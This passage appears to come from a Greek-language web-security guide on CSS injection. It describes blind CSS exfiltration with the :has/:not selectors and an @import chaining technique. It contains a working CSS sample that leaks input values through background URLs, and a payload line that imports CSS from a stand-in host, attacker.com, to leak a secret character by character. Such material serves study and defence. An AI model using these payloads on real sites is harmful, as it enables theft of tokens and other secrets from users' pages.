 Όπως [**εξηγείται σε αυτή την ανάρτηση**](https://portswigger.net/research/blind-css-exfiltration), είναι δυνατόν να συνδυαστούν οι επιλεγείς **`:has`** και **`:not`** για να εντοπιστεί περιεχόμενο ακόμη και από τυφλά στοιχεία. Αυτό είναι πολύ χρήσιμο όταν δεν έχετε ιδέα τι υπάρχει μέσα στη σελίδα που φορτώνει το CSS injection.\
Είναι επίσης δυνατό να χρησιμοποιηθούν αυτοί οι επιλεγείς για να εξαχθούν πληροφορίες από αρκετές μπλοκ του ίδιου τύπου όπως σε:
```html
<style>
html:has(input[name^="m"]):not(input[name="mytoken"]) {
background: url(/m);
}
</style>
<input name="mytoken" value="1337" />
<input name="myname" value="gareth" />
```
Συνδυάζοντας αυτό με την παρακάτω τεχνική **@import**, είναι δυνατόν να εξάγουμε πολλές **πληροφορίες χρησιμοποιώντας CSS injection από τυφλές σελίδες με** [**blind-css-exfiltration**](https://github.com/hackvertor/blind-css-exfiltration)**.**

### @import

Η προηγούμενη τεχνική έχει κάποια μειονεκτήματα, ελέγξτε τις προϋποθέσεις. Πρέπει είτε να μπορείτε να **στείλετε πολλαπλούς συνδέσμους στο θύμα**, είτε να μπορείτε να **iframe τη σελίδα που είναι ευάλωτη σε CSS injection**.

Ωστόσο, υπάρχει μια άλλη έξυπνη τεχνική που χρησιμοποιεί **CSS `@import`** για να βελτιώσει την ποιότητα της τεχνικής.

Αυτό παρουσιάστηκε πρώτα από [**Pepe Vila**](https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf) και λειτουργεί ως εξής:

Αντί να φορτώνουμε την ίδια σελίδα ξανά και ξανά με δεκάδες διαφορετικά payloads κάθε φορά (όπως στην προηγούμενη), θα **φορτώσουμε τη σελίδα μόνο μία φορά και μόνο με μια εισαγωγή στον διακομιστή του επιτιθέμενου** (αυτό είναι το payload που θα σταλεί στο θύμα):
```css
@import url("//attacker.com:5001/start?");
```
1. Η εισαγωγή θα **λάβει κάποιο CSS script** από τους επιτιθέμενους και ο **περιηγητής θα το φορτώσει**.
2. Το πρώτο μέρος του CSS script που θα στείλει ο επιτιθέμενος είναι **άλλη `@import` στον διακομιστή των επιτιθέμενων ξανά.**
1. Ο διακομιστής των επιτιθέμενων δεν θα απαντήσει σε αυτή την αίτηση ακόμα, καθώς θέλουμε να διαρρεύσουν μερικοί χαρακτήρες και στη συνέχεια να απαντήσει αυτή την εισαγωγή με το payload για να διαρρεύσουν τους επόμενους.
3. Το δεύτερο και μεγαλύτερο μέρος του payload θα είναι ένα **payload διαρροής επιλεγέα χαρακτηριστικών**
1. Αυτό θα στείλει στον διακομιστή των επιτιθέμενων τον **πρώτο χαρακτήρα του μυστικού και τον τελευταίο.**
4. Μόλις ο διακομιστής των επιτιθέμενων λάβει τον **πρώτο και τελευταίο χαρακτήρα του μυστικού**, θα **απαντήσει στην εισαγωγή που ζητήθηκε στο βήμα 2**.
1. Η απάντηση θα είναι ακριβώς η ίδια με τα **βήματα 2, 3 και 4**, αλλά αυτή τη φορά θα προσπαθήσει να **βρει τον δεύτερο χαρακτήρα του μυστικού και στη συνέχεια τον προτελευταίο**.

Ο επιτιθέμενος θα **ακολουθήσει αυτόν τον βρόχο μέχρι να καταφέρει να διαρρεύσει εντελώς το μυστικό**.
